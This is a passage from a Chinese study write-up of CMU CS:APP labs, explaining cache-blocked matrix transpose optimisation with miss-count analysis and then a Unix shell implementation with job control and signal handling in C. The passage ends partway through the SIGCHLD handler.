    要求最多只能声明12个本地变量，这里使用**矩阵分块**进行优化。

    #### 32 x 32

    我们先了解下题目给出的 cache 结构：`s = 5, E = 1, b = 5` 的缓存有32组，每组一行，每行存 8 个int，共 1KB 大小，如图：

    { width=250 }

    以这个缓存为例，考虑暴力转置的做法：

    ```C
    void trans_submit(int M, int N, int A[N][M], int B[M][N]) 
    {
        for (int i = 0; i < N; i++) 
        {
            for (int j = 0; j < M; j++) 
            {
                int tmp = A[i][j];
                B[j][i] = tmp;
            }
        }
    }
    ```

    

    这里我们会按行优先读取 A 矩阵，然后一列一列地写入 B 矩阵。以第1行为例，在从内存读 A[0][0] 的时候，除了 A[0][0] 被加载到缓存中，它之后的 A[0][1] ~ A[0][7] 也会被加载进缓存。但是内容写入 B 矩阵的时候是一列一列地写入，在列上相邻的元素不在一个内存块上，这样每次写入都不命中缓存。并且一列写完之后再返回，原来的缓存可能被覆盖了，这样就又会不命中，我们来定量分析。

    cache 只够存储一个矩阵的四分之一，A中的元素每隔8行所对应的cache line位置都是相同的。这里回顾下缓存组索引的计算：

    在直接映射缓存中，缓存组索引 = (内存地址 ÷ 块大小) % 缓存组数量

    假设：

    - 矩阵A的起始地址为0
    - 矩阵B的起始地址为A矩阵之后，即4096字节(32×32×4)

    计算A[i][j]的内存地址和缓存组索引：

    - A[i][j]的内存地址 = 0 + i×128 + j×4
    - 块号 = 地址 ÷ 32 = (i×128 + j×4) ÷ 32 = i×4 + j/8
    - 缓存组索引 = 块号 % 32 = **(i×4 + j/8) % 32**

    计算B[j][i]的内存地址和缓存组索引：

    - B[j][i]的内存地址 = 4096 + j×128 + i×4
    - 块号 = 地址 ÷ 32 = (4096 + j×128 + i×4) ÷ 32 = 128 + j×4 + i/8
    - 缓存组索引 = 块号 % 32 = (128 + j×4 + i/8) % 32 = **(j×4 + i/8) % 32**

    具体例子：

    取i=0, j=0：

    - A[0][0]：缓存组索引 = (0×4 + 0) % 32 = 0
    - B[0][0]：缓存组索引 = (0×4 + 0) % 32 = 0

    取i=1, j=2：

    - A[1][2]：缓存组索引 = (1×4 + 2/8) % 32 = 4 % 32 = 4
    - B[2][1]：缓存组索引 = (2×4 + 1/8) % 32 = 8 % 32 = 8

    关键发现：当j == i时，A[i][j]和B[j][i]会映射到相同的缓存组！比如i = 0, j = 0；i = 1, j = 1时。因此在访问A[i][j]和B[j][i]时，这就导致了缓存冲突：刚加载A的数据，就被B的数据替换出去。

    对于A，每8个int就会占满缓存的一组，所以每一行会有 32/8 = 4 次不命中；而对于B，考虑最坏情况，每一列都有 32 次不命中，由此，算出总不命中次数为 4 × 32 + 32 × 32 = 1152。拿程序跑一下：

    ```bash
    05-Cache-Lab$ make && ./test-trans -M 32 -N 32
    # Generate a handin tar file each time you compile
    tar -cvf lingyu-handin.tar  csim.c trans.c 
    csim.c
    trans.c

    Function 0 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 0 (Transpose submission): hits:869, misses:1184, evictions:1152

    Function 1 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 1 (Simple row-wise scan transpose): hits:869, misses:1184, evictions:1152

    Summary for official submission (func 0): correctness=1 misses=1184

    TEST_TRANS_RESULTS=1:1184
    ```

    结果为 1184 比预估多了一点，这是对角线部分两者冲突造成的。回过头来，思考暴力做法：

    

    在写入B的前 8 行后，B的D区域就全部进入了缓存，此时如果能对D进行操作，那么就能利用上缓存的内容，不会miss；但是，暴力解法接下来操作的是C，每一个元素的写都要驱逐之前的缓存区，当来到第 2 列继续写D时，它对应的缓存行很可能已经被驱逐了，于是又要miss，也就是说，暴力解法的问题在于没有充分利用上已经进入缓存的元素。

    由上述分析，显然应考虑 8 × 8 分块，这样在块的内部不会冲突，接下来判断A与B之间会不会冲突：

    

    

    A中标深红的块占用的是缓存的第 0，4，8，12，16，20，24，28组，而B中标深红的块占用的是缓存的第2，6，10，14，18，16，30组，刚好不会冲突（即上图中的灰色和淡蓝色对应到右边的cache的位置，注意回顾上述的cache的组索引计算方式，对于A而言，访问到灰色块时，对应的行数是第16~23行，它对应在cache里是第 0，4，8，12，16，20，24，28组。对于B而言，此时访问的是淡蓝色块，对应的行数是第0行，列数是第16~23列，它对应在cache里是第2，6，10，14，18，16，30组。用的都是公式(i×4 + j/8) % 32来计算，i代表行，j代表列）。事实上，除了对角线，A与B中对应的块都不会冲突。所以，我们的想法是可行的，写出代码：

    ```C
    void transpose_submit(int M, int N, int A[N][M], int B[M][N])
    {
        for (int i = 0; i < N; i += 8)
            for (int j = 0; j < M; j += 8)
                for (int k = 0; k < 8; k++)
                    for (int s = 0; s < 8; s++)
                        B[j + s][i + k] = A[i + k][j + s];
    }
    ```

    对于A中每一个操作块，只有每一行的第一个元素会不命中，所以为8次不命中；对于B中每一个操作块，只有每一列的第一个元素会不命中，所以也为 8 次不命中。总共miss次数为：8 × 16 + 8 × 16 = 256，然而测试结果是miss次数为344:

    ```bash
    05-Cache-Lab$ make && ./test-trans -M 32 -N 32
    ...
    Function 0 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 0 (Transpose submission): hits:1709, misses:344, evictions:312

    Function 1 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 1 (Simple row-wise scan transpose): hits:869, misses:1184, evictions:1152

    Summary for official submission (func 0): correctness=1 misses=344

    TEST_TRANS_RESULTS=1:344
    ```

    这与我们计算的结果差距非常大，没有得到满分，这是为什么呢？这就要考虑到对角线上的块了。A与B对角线上的块在缓存中对应的位置是相同的，而它们在转置过程中位置不变，所以复制过程中会发生相互冲突。以A的一个对角线块p，B与p相应的对角线块q为例，复制前，p 在缓存中。复制时，q会驱逐p。下一个开始复制 p 又被重新加载进入缓存驱逐 q，这样就会多产生两次miss。

    如何解决这种问题呢？考虑使用 8 个本地变量一次性存下 A 的一行后，再复制给 B，代码如下：

    ```C
    void transpose_32x32(int M, int N, int A[N][M], int B[M][N])
    {
        for(int i = 0; i < 32; i += 8)
        {
            for(int j = 0; j < 32; j += 8)
            {
                for (int k = i; k < i + 8; k++)
                {
                    int a_0 = A[k][j];
                    int a_1 = A[k][j+1];
                    int a_2 = A[k][j+2];
                    int a_3 = A[k][j+3];
                    int a_4 = A[k][j+4];
                    int a_5 = A[k][j+5];
                    int a_6 = A[k][j+6];
                    int a_7 = A[k][j+7];
                    B[j][k] = a_0;
                    B[j+1][k] = a_1;
                    B[j+2][k] = a_2;
                    B[j+3][k] = a_3;
                    B[j+4][k] = a_4;
                    B[j+5][k] = a_5;
                    B[j+6][k] = a_6;
                    B[j+7][k] = a_7;
                }
            }
        }            
    }
    ```

    对于非对角线上的块，本身就没有额外的冲突；对于对角线上的块，写入A每一行的第一个元素后，这一行的元素都进入了缓存，我们就立即用本地变量(存放在寄存器里)存下这 8 个元素，随后再复制给B。这样，就避免了第一个元素复制时，B把A的缓存行驱逐，导致没有利用上A的缓存行。结果miss次数为 288，满分。

    ```bash
    05-Cache-Lab$ make && ./test-trans -M 32 -N 32
    ...
    Function 0 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 0 (Transpose submission): hits:1765, misses:288, evictions:256

    Function 1 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 1 (Simple row-wise scan transpose): hits:869, misses:1184, evictions:1152

    Summary for official submission (func 0): correctness=1 misses=288

    TEST_TRANS_RESULTS=1:288
    ```

    #### 64 x 64

    由于此时矩阵每 4 行就会占满缓存，考虑 8 × 8 分块，在分块内部处理时就需要技巧了，我们把分块内部再分成 4 个 4 × 4 的小分块分别处理：

    - 第一步，将A的左上和右上一次性复制给B
    - 第二步，用本地变量把B的右上角存储下来
    - 第三步，将A的左下复制给B的右上
    - 第四步，利用上述存储B的右上角的本地变量，把A的右上复制给B的左下
    - 第五步，把A的右下复制给B的右下

    图解如下：(这里的A和B均表示两个矩阵中的 8 × 8 块)

    第 1 步：得到A的第1, 2块，并将它们复制给B的第1, 2块 (注意此时B的第2块放置的位置是错的，后面会被更正)。此时B的前 4 行就在缓存中了。

    

    第 2 步：用本地变量把B的第 2 块存储下来

    ```C
    for (int k = j; k < j + 4; k++)
    {
        a_0 = B[k][i + 4];
        a_1 = B[k][i + 5];
        a_2 = B[k][i + 6];
        a_3 = B[k][i + 7];
    }
    ```

    第 3 步：现在缓存中还是存着B中块1和块2的内容，所以将A的第 3 块内容复制给它。

    

    第 4/5 步：现在缓存已经利用到极致了，可以开辟B的下面两块了。

    

    这样就实现了转置，且消除了同一行中的冲突，具体代码如下：

    ```C
    void transpose_64x64(int M, int N, int A[N][M], int B[M][N])
    {
        int a_0, a_1, a_2, a_3, a_4, a_5, a_6, a_7;
        for (int i = 0; i < 64; i += 8)
        {
            for (int j = 0; j < 64; j += 8)
            {
                for (int k = i; k < i + 4; k++)
                {
                    // 得到A的第1, 2块
                    a_0 = A[k][j + 0];
                    a_1 = A[k][j + 1];
                    a_2 = A[k][j + 2];
                    a_3 = A[k][j + 3];
                    a_4 = A[k][j + 4];
                    a_5 = A[k][j + 5];
                    a_6 = A[k][j + 6];
                    a_7 = A[k][j + 7];
                    // 复制给B的第1, 2块
                    B[j + 0][k] = a_0;
                    B[j + 1][k] = a_1;
                    B[j + 2][k] = a_2;
                    B[j + 3][k] = a_3;
                    B[j + 0][k + 4] = a_4;
                    B[j + 1][k + 4] = a_5;
                    B[j + 2][k + 4] = a_6;
                    B[j + 3][k + 4] = a_7;
                }

                for (int k = j; k < j + 4; k++)
                {
                    // 得到B的第2块
                    a_0 = B[k][i + 4];
                    a_1 = B[k][i + 5];
                    a_2 = B[k][i + 6];
                    a_3 = B[k][i + 7];
                    // 得到A的第3块
                    a_4 = A[i + 4][k];
                    a_5 = A[i + 5][k];
                    a_6 = A[i + 6][k];
                    a_7 = A[i + 7][k];
                    // 复制给B的第2块
                    B[k][i + 4] = a_4;
                    B[k][i + 5] = a_5;
                    B[k][i + 6] = a_6;
                    B[k][i + 7] = a_7;
                    // B原来的第2块移动到第3块
                    B[k + 4][i + 0] = a_0;
                    B[k + 4][i + 1] = a_1;
                    B[k + 4][i + 2] = a_2;
                    B[k + 4][i + 3] = a_3;
                }

                for (int k = i + 4; k < i + 8; k++)
                {
                    // 处理第4块
                    a_4 = A[k][j + 4];
                    a_5 = A[k][j + 5];
                    a_6 = A[k][j + 6];
                    a_7 = A[k][j + 7];
                    B[j + 4][k] = a_4;
                    B[j + 5][k] = a_5;
                    B[j + 6][k] = a_6;
                    B[j + 7][k] = a_7;
                }
            }
        }
    }
    ```

    结果 miss为 1227，通过：

    ```bash
    05-Cache-Lab$ make && ./test-trans -M 64 -N 64
    ...
    Function 0 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 0 (Transpose submission): hits:9017, misses:1228, evictions:1196

    Function 1 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 1 (Simple row-wise scan transpose): hits:3473, misses:4724, evictions:4692

    Summary for official submission (func 0): correctness=1 misses=1228

    TEST_TRANS_RESULTS=1:1228
    ```

    #### 61 x 67

    这个矩阵的转置要求很松，miss为 2000 以下就可以，直接 16 × 16 的分块就能通过：

    ```C
    void transpose_61x67(int M, int N, int A[N][M], int B[M][N])
    {
        for (int i = 0; i < N; i += 16)
            for (int j = 0; j < M; j += 16)
                for (int k = i; k < i + 16 && k < N; k++)
                    for (int s = j; s < j + 16 && s < M; s++)
                        B[s][k] = A[k][s];
    }
    ```

    ```bash
    05-Cache-Lab$ make && ./test-trans -M 61 -N 67
    ...
    Function 0 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 0 (Transpose submission): hits:6186, misses:1993, evictions:1961

    Function 1 (2 total)
    Step 1: Validating and generating memory traces
    Step 2: Evaluating performance (s=5, E=1, b=5)
    func 1 (Simple row-wise scan transpose): hits:3755, misses:4424, evictions:4392

    Summary for official submission (func 0): correctness=1 misses=1993

    TEST_TRANS_RESULTS=1:1993
    ```

    最后的评分：

    ```bash
    05-Cache-Lab$ python2 driver.py 
    Part A: Testing cache simulator
    Running ./test-csim
                            Your simulator     Reference simulator
    Points (s,E,b)    Hits  Misses  Evicts    Hits  Misses  Evicts
         3 (1,1,1)      9       8       6       9       8       6  traces/yi2.trace
         3 (4,2,4)      4       5       2       4       5       2  traces/yi.trace
         3 (2,1,4)      2       3       1       2       3       1  traces/dave.trace
         3 (2,1,3)    167      71      67     167      71      67  traces/trans.trace
         3 (2,2,3)    201      37      29     201      37      29  traces/trans.trace
         3 (2,4,3)    212      26      10     212      26      10  traces/trans.trace
         3 (5,1,5)    231       7       0     231       7       0  traces/trans.trace
         6 (5,1,5) 265189   21775   21743  265189   21775   21743  traces/long.trace
         27


    Part B: Testing transpose function
    Running ./test-trans -M 32 -N 32
    Running ./test-trans -M 64 -N 64
    Running ./test-trans -M 61 -N 67

    Cache Lab summary:
                            Points   Max pts      Misses
    Csim correctness          27.0        27
    Trans perf 32x32           8.0         8         288
    Trans perf 64x64           8.0         8        1228
    Trans perf 61x67          10.0        10        1993
              Total points    53.0        53
    ```

## Performance Lab

1. 在 CMU，这个实验已经被 Cache Lab 取代了，含金量不高，相比其他实验也粗糙了很多。如果还没有做 Cache Lab，可以把这个 Lab 当作一个小练习；如果已经做了，那么建议跳过这个实验。实验参考在[这里](https://zhuanlan.zhihu.com/p/488141606)。

## Shell Lab

1. ### 实验概览

    Shell Lab 要求实现一个带有作业控制的 Unix Shell 程序(修改`tsh.c`)，需要考虑基础的并发，进程控制以及信号和信号处理。需要我们实现的函数：

    - `eval`：解析命令行 [约 70 行]
    - `builtin_cmd`：检测是否为内置命令`quit`、`fg`、`bg`、`jobs`[约 25 行]
    - `do_bgfg`：实现内置命令`bg`和`fg`[约 50 行]
    - `waitfg`：等待前台作业执行完成 [约 20 行]
    - `sigchld_handler`：处理`SIGCHLD`信号，即子进程停止或者终止 [约 80 行]
    - `sigint_handler`：处理`SIGINT`信号，即来自键盘的中断ctrl-c [约 15 行]
    - `sigtstp_handler`：处理`SIGTSTP`信号，即来自终端的停止信号 [约 15 行]

    作者提供的帮助函数及功能：

    ```C
    /* Here are helper routines that we've provided for you */
    int parseline(const char *cmdline, char **argv);  // 解析命令行参数，如果后台运行则返回 1
    void sigquit_handler(int sig);

    void clearjob(struct job_t *job);                 // 清除job结构体
    void initjobs(struct job_t *jobs);                // 初始化jobs列表
    int maxjid(struct job_t *jobs);                   // 返回jobs列表中jid最大值
    int addjob(struct job_t *jobs, pid_t pid, int state, char *cmdline);    // 在jobs列表中添加job
    int deletejob(struct job_t *jobs, pid_t pid);     // 在jobs列表中删除pid对应的job
    pid_t fgpid(struct job_t *jobs);                  // 返回前台运行的job的pid
    struct job_t *getjobpid(struct job_t *jobs, pid_t pid); // 返回对应pid的job
    struct job_t *getjobjid(struct job_t *jobs, int jid);   // 返回对应jid的job
    int pid2jid(pid_t pid);             // 返回对应pid的job的jid
    void listjobs(struct job_t *jobs);  // 打印jobs列表

    void usage(void);                   // 帮助信息
    void unix_error(char *msg);         // 错误信息
    void app_error(char *msg);
    typedef void handler_t(int);
    handler_t *Signal(int signum, handler_t *handler);
    ```

    CMU 文档的一些说明与要求：

    - Shell 的提示标记符为 "tsh> "
    - 用户键入的命令行应包括命令名称和 0 个或多个参数，所有参数以一个或多个空格分隔。如果 name 是一个内置命令，则 tsh 应该立即处理它并等待下一个命令行。否则，tsh 假定该名称是一个可执行程序的路径，并在一个初始子进程的上下文中加载并运行
    - tsh 不需要支持管道（|）或 I/O 重定向（< 和 >）
    - 键入 ctrl-c（ctrl-z）应该会发送一个 SIGINT（SIGTSTP）信号给当前的前台作业以及它的子进程。如果没有前台作业，则该信号应该没有任何作用
    - 如果命令行以 & 结束，则 tsh 应该在后台运行该作业。否则，它应该在前台运行
    - 每个作业都可以由一个进程 ID（PID）或一个作业 ID（JID）标识，该 ID 是一个由 tsh 分配的正整数。JID应该在命令行上以前缀 "%" 表示。例如，"%5" 表示 JID 5，"5" 表示 PID 5
    - tsh 应该支持以下内置命令：
        - quit：终止 tsh 程序。
        - jobs：列出所有后台作业
        - bg ：向作业发送 SIGCONT 信号来重新启动 ，然后在后台运行
        - fg ：向作业发送 SIGCONT 信号来重新启动 ，然后在前台运行
    - tsh 必须回收所有的僵死进程

2. ### 错误处理包装函数

    当 Unix 系统及函数遇到错误时，它们通常会返回 -1，并设置全局整型变量errno来表示什么出错了。为了能让程序检查错误的同时代码不那么臃肿，按照书本推荐的方式，编写一套后面将要用到的错误处理包装函数:

    ```C
    /* Error wrapper function */
    pid_t Fork(void);
    void Sigprocmask(int how, const sigset_t *set, sigset_t *oldset);
    void Sigemptyset(sigset_t *set);
    void Sigfillset(sigset_t *set);
    void Sigaddset(sigset_t *set, int signum);
    void Execve(const char *filename, char *const argv[], char *const envp[]);
    void Setpgid(pid_t pid, pid_t pgid);
    void Kill(pid_t pid, int sig);
    pid_t Fork(void)
    {
        pid_t pid;
        if ((pid = fork()) < 0)
        {
            unix_error("Fork error");
        }
        return pid;
    }
    void Sigprocmask(int how, const sigset_t *set, sigset_t *oldset)
    {
        if (sigprocmask(how, set, oldset) < 0)
        {
            unix_error("Sigprocmask error");
        }
    }
    void Sigemptyset(sigset_t *set)
    {
        if (sigemptyset(set) < 0)
        {
            unix_error("Sigemptyset error");
        }
    }
    void Sigfillset(sigset_t *set)
    {
        if (sigfillset(set) < 0)
        {
            unix_error("Sigfillset error");
        }
    }
    void Sigaddset(sigset_t *set, int signum)
    {
        if (sigaddset(set, signum) < 0)
        {
            unix_error("Sigaddset error");
        }
    }
    void Execve(const char *filename, char *const argv[], char *const envp[])
    {
        if (execve(filename, argv, envp) < 0)
        {
            printf("%s: Command not found.\n", argv[0]);
        }
    }
    void Setpgid(pid_t pid, pid_t pgid)
    {
        if (setpgid(pid, pgid) < 0)
        {
            unix_error("Setpid error");
        }
    }
    void Kill(pid_t pid, int sig)
    {
        if (kill(pid, sig) < 0)
        {
            unix_error("Kill error");
        }
    }
    ```

3. ### eval

    这个函数功能是解析命令行后判断为内置命令还是程序路径，分别执行。如果是前台作业，则要等待其完成，如果是后台作业，则要输出其相应信息：

    ```C
    /* 
    * eval - Evaluate the command line that the user has just typed in
    * 
    * If the user has requested a built-in command (quit, jobs, bg or fg)
    * then execute it immediately. Otherwise, fork a child process and
    * run the job in the context of the child. If the job is running in
    * the foreground, wait for it to terminate and then return.  Note:
    * each child process must have a unique process group ID so that our
    * background children don't receive SIGINT (SIGTSTP) from the kernel
    * when we type ctrl-c (ctrl-z) at the keyboard.  
    */
    void eval(char *cmdline) 
    {
        char *argv[MAXARGS];        // 存放解析的参数
        char buf[MAXLINE];          // 解析cmdline
        int bg;                     // 判断程序是前台还是后台执行
        int state;                  // 指示前台还是后台运行状态
        pid_t pid;                  // 执行程序的子进程的pid

        strcpy(buf, cmdline);   
        bg = parseline(buf, argv);  // 解析参数
        state = bg? BG : FG;          
        if (argv[0] == NULL)        // 空行，直接返回
            return;
        sigset_t mask_all, mask_one, prev_one;
        Sigfillset(&mask_all);         // 创建一个阻塞所有信号的掩码: mask_all, 即所有信号位都设置为1（阻塞状态）
        Sigemptyset(&mask_one);        // 创建一个空掩码: mask_one, 即所有信号位都设置为0（不阻塞状态）
        Sigaddset(&mask_one, SIGCHLD); // 在mask_one中添加SIGCHLD信号, 即创建一个只阻塞SIGCHLD信号的掩码
        if (!builtin_cmd(argv))                                 // 判断是否为内置命令，如果是内置命令，由builtin_cmd函数处理并返回true
        {                            
            Sigprocmask(SIG_BLOCK, &mask_one, &prev_one);       // fork前阻塞SIGCHLD信号: 防止子进程在被添加到作业列表前终止
            // 子进程可能在父进程将其添加到作业列表(addjob)之前就已经执行完毕并终止
            // 此时子进程终止会触发 SIGCHLD 信号
            // 信号处理器会处理这个终止的子进程，但由于该进程尚未添加到作业列表中，信号处理器无法识别和正确处理它
            // 这将导致僵尸进程的产生，或者作业状态管理出现混乱
            // 因此，原子的作业创建流程是：创建子进程 -> 将子进程添加到作业列表 -> 开始跟踪其状态
            if ((pid = Fork()) == 0)                            // 创建子进程, 拷贝父进程地址空间的完整副本，包括信号掩码这些变量
            {
                Sigprocmask(SIG_SETMASK, &prev_one, NULL);      // 解除子进程的阻塞：子进程作为一个独立的进程，需要能够响应所有正常的信号，注意这只影响子进程的信号掩码，不会影响父进程的信号掩码
                Setpgid(0, 0);                                  // 创建新进程组，ID设置为进程PID，这里主要是为了将子进程组与 tsh 进程组分开，防止发信号终止子进程组时也将 tsh 进程组终止了
                Execve(argv[0], argv, environ);                 // 执行
                exit(0);                                        // 子进程执行完毕后一定要退出，此时子进程完全终止了
            }
            // 以下代码只有父进程会执行, fork在子进程中返回0，在父进程中返回子进程的pid，因此以下pid为子进程的pid
            if (state == FG)
            {
                Sigprocmask(SIG_BLOCK, &mask_all, NULL);            // 添加工作前阻塞所有信号(确保原子操作)
                addjob(jobs, pid, state, cmdline);                  // 添加至作业列表
                Sigprocmask(SIG_SETMASK, &mask_one, NULL);          // 恢复为只阻塞SIGCHLD的状态
                waitfg(pid);                                        // 等待前台进程执行完毕
            }         
            else
            {
                Sigprocmask(SIG_BLOCK, &mask_all, NULL);            // 添加工作前阻塞所有信号(确保原子操作)
                addjob(jobs, pid, state, cmdline);                  // 添加至作业列表
                Sigprocmask(SIG_SETMASK, &mask_one, NULL);          // 恢复为只阻塞SIGCHLD的状态
                // printf函数是线程不安全的，比如可能会出现读内存的同时另一个线程修改它的情况，因此也需要阻塞信号
                printf("[%d] (%d) %s", pid2jid(pid), pid, cmdline); // 打印后台进程信息
            }
            Sigprocmask(SIG_SETMASK, &prev_one, NULL);              // 解除阻塞，恢复到fork前的原始信号掩码状态（即prev_one）
        }
        return;
    }
    ```

4. ### builtin_cmd

    这个函数就是简简单单判断是否为内置命令：

    ```C
    /* 
    * builtin_cmd - If the user has typed a built-in command then execute
    *    it immediately.  
    */
    int builtin_cmd(char **argv) 
    {
        if (!strcmp(argv[0], "quit"))
            exit(0);
        if (!strcmp(argv[0], "bg") || !strcmp(argv[0], "fg")) {
            do_bgfg(argv);
            return 1;
        }
        if (!strcmp(argv[0], "jobs")) {
            listjobs(jobs);
            return 1;
        }
        if (!strcmp(argv[0], "&"))
            return 1;
        return 0;     /* not a builtin command */
    }
    ```

5. ### do_bgfg

    这个函数要实现内置命令`bg`和`fg`，这两个命令的功能如下：

    - `bg <job>`：通过向<job>对应的作业发送SIGCONT信号来使它重启并放在后台运行
    - `fg <job>`：通过向 <job>对应的作业发送SIGCONT信号来使它重启并放在前台运行
    - 输入时后面的参数有%则代表jid，没有则代表pid

    trace14主要就是用来测试这个命令，查看标准程序的输出：

    ```bash
    07-Shell-Lab$ make rtest14
    ./sdriver.pl -t trace14.txt -s ./tshref -a "-p"
    #
    # trace14.txt - Simple error handling
    #
    tsh> ./bogus
    ./bogus: Command not found
    tsh> ./myspin 4 &
    [1] (775626) ./myspin 4 &
    tsh> fg
    fg command requires PID or %jobid argument
    tsh> bg
    bg command requires PID or %jobid argument
    tsh> fg a
    fg: argument must be a PID or %jobid
    tsh> bg a
    bg: argument must be a PID or %jobid
    tsh> fg 9999999
    (9999999): No such process
    tsh> bg 9999999
    (9999999): No such process
    tsh> fg %2
    %2: No such job
    tsh> fg %1
    Job [1] (775626) stopped by signal 20
    tsh> bg %2
    %2: No such job
    tsh> bg %1
    [1] (775626) ./myspin 4 &
    tsh> jobs
    [1] (775626) Running ./myspin 4 &
    ```

    ```C
    /* 
    * do_bgfg - Execute the builtin bg and fg commands
    */
    void do_bgfg(char **argv) 
    {
        struct job_t *job = NULL;           // 要处理的job
        int state;                          
        int id;                             // 存储jid或pid
        if (!strcmp(argv[0], "bg")) 
        {
            state = BG;
        }
        else
        {
            state = FG;
        }
        if (argv[1] == NULL)                   // 没带参数
        {                  
            printf("%s command requires PID or %%jobid argument\n", argv[0]);
            return;
        }
        if (argv[1][0] == '%')
        {                                    // 说明是jid
        if (sscanf(&argv[1][1], "%d", &id) > 0)
        {
                job = getjobjid(jobs, id);  // 获得job
                if (job == NULL)
                {
                    printf("%%%d: No such job\n", id);
                    return;
                }
            }
        }
        else if (!isdigit(argv[1][0]))      // 其它符号，非法输入
        {     
            printf("%s: argument must be a PID or %%jobid\n", argv[0]);
            return;
        }
        else                                // pid
        {                               
            id = atoi(argv[1]);
            job = getjobpid(jobs, id);
            if (job == NULL)
            {
                printf("(%d): No such process\n", id);
                return;
            }

        }
        // 正数 PID：表示向单个特定进程发送信号
        // 负数 PID：表示向整个进程组发送信号
        // 一个作业可能包含多个进程（如管道命令 ls | grep xxx）
        // 为了确保作业的所有组成部分都被正确恢复，必须向整个进程组发送 SIGCONT 信号
        Kill(-(job->pid), SIGCONT);         // 重启进程, 这里发送到进程组
        job->state = state;
        if (state == BG)
            printf("[%d] (%d) %s",job->jid, job->pid, job->cmdline);
        else 
            waitfg(job->pid);
        return;
    }
    ```

6. ### waitfg

    这个函数要求实现阻塞父进程，直到当前的前台进程不再是前台进程了。

    ```C
    /* 
    * waitfg - Block until process pid is no longer the foreground process
    */
    void waitfg(pid_t pid)
    {
        sigset_t mask;
        Sigemptyset(&mask);   
        while (fgpid(jobs) != 0)
        {                      // 执行一个原子操作：将shell进程的信号掩码临时设置为空集，然后挂起shell进程
            sigsuspend(&mask); // 等待任何信号的到达。当前台进程终止或状态改变时，会发送 SIGCHLD 信号。
        }                      // shell 的信号处理函数会捕获这个信号
        return;
    }
    ```

7. ### 信号处理函数实现 sigchld_handler/sigint_handler/sigtstp_handler

    实现一个 SIGCHLD 信号处理函数，能够回收所有僵死进程:

    ```C
    /* 
    * sigchld_handler - The kernel sends a SIGCHLD to the shell whenever
    *     a child job terminates (becomes a zombie), or stops because it
    *     received a SIGSTOP or SIGTSTP signal. The handler reaps all
    *     available zombie children, but doesn't wait for any other
    *     currently running children to terminate.  
    */
    void sigchld_handler(int sig) 
    {
        int olderrno = errno;    // 由于errno是全局变量, 注意保存和恢复errno
        int status;
        pid_t pid;
        struct job_t *job;
        sigset_t mask, prev;
        sigfillset(&mask);
        while ((pid = waitpid(-1, &status, WNOHANG | WUNTRACED)) > 0) // 获取任何子进程的状态变化, -1: 等待任何子进程
        { // WNOHANG：非阻塞模式，没有状态变化的子进程时立即返回; WUNTRACED：同时检查终止和停止的子进程
            sigprocmask(SIG_BLOCK, &mask, &prev);   // 阻塞所有信号
            if (WIFEXITED(status))                  // 正常终止，即子进程通过 exit() 或 return 正常退出
            {                 
                deletejob(jobs, pid);
            }
            else if (WIFSIGNALED(status))           // 信号终止, 打印（如 Ctrl+C 发送的 SIGINT）
            {          
                printf ("Job [%d] (%d) terminated by signal %d\n", pid2jid(pid), pid, WTERMSIG(status));
                deletejob(jobs, pid);
            }
            else if (WIFSTOPPED(status))            // 进程停止, 打印（如 Ctrl+Z 发送的 SIGTSTP）
            {           
                printf ("Job [%d] (%d) stoped by signal %d\n", pid2jid(pid), pid, WSTOPSIG(status));
                job = getjobpid(jobs, pid);
                job->state = ST;                    // 进程处于暂停状态，只是被挂起，后续可以使用`fg %作业号`或`bg %作业号`恢复到前台/后台执行
            }
